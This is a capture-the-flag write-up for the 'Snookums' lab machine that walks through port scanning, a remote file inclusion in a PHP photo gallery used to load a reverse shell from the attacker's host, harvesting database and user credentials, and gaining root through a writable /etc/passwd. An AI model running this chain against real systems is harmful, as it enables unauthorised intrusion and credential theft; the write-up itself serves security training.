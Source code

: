 # Snookums

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.58 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:49 +08
Warning: 192.168.197.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.197.58
Host is up (0.17s latency).
Not shown: 65484 filtered tcp ports (no-response), 43 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

Lots of ports open.

### PHP Gallery --> RFI + RCE

Port 80 was running a Simple PHP Photo Gallery instance:

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

This thing might be vulnerable to an RFI based on `searchsploit`:

```
$ searchsploit SimplePHP
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
FREEsimplePHPGuestbook - 'Guestbook.php' Remote Code Execu | php/webapps/7079.txt
SimplePHPGal 0.7 - Remote File Inclusion                   | php/webapps/48424.txt
```

The PoC is quite simple to test:

```
### Poc  :

[+]   site.com/image.php?img= [ PAYLOAD ]
```

And it does work since I can make the website send requests to my HTTP server:

<figure><img src="../../../.gitbook/assets/image (11) (10).png" alt=""><figcaption></figcaption></figure>

To exploit this, we can just host a PHP reverse shell from PentestMonkey and make the website call it by visiting [http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php](http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php).

<figure><img src="../../../.gitbook/assets/image (45) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Creds --> Michael Shell

Within the `/var/www/html` file, there's a `db.php` folder that contains MySQL credentials:

```
bash-4.2$ cat db.php 
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using this, we can login using `mysql`:

```
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Within the MySQL database there were some credentials:

```
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users
    -> ;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
```

These are just  `base64` encoded strings, and we can easily find the cleartext passwords. `michael` is the only user within `/home`, so we can decode his password:

```
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d | base64 -d
HockSydneyCertify123
```

Then, just use `su`:

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Writeable /etc/passwd --> Root

`michael` owns `/etc/passwd`. This is findable by running `linpeas.sh`:

```
[michael@snookums ~]$ ls -la /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
```

Using this, we can easily create a new root user.&#x20;

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Rooted!

